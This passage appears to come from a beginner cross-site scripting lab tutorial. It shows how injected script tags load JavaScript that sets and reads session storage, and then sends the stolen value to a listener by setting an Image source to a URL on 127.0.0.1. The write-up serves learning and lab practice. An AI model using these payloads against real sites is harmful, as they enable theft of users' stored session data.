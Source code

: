 ![](/img/XSSBasic/capturedLocalStorage.PNG)


Now we are able to set and get local storage items with JavaScript.

<h2>Session storage</h2>

Similar to local storage this page does not have anything set in the session storage so we need to set it:
```
<script src=http://127.0.0.1/setSessionStorageItem.js></script>
```
<br>
setSessionStorageItem:
```
sessionStorage.setItem('test', 'test');
```
<br>
Injection:
```
<script src=http://127.0.0.1/getSessionStorageItem.js></script>
```
<br>
getSessionStorageItem.js:
```
var data = window.sessionStorage.getItem('test');
var i=new Image;
i.src="http://127.0.0.1/?"+data;
```
<br>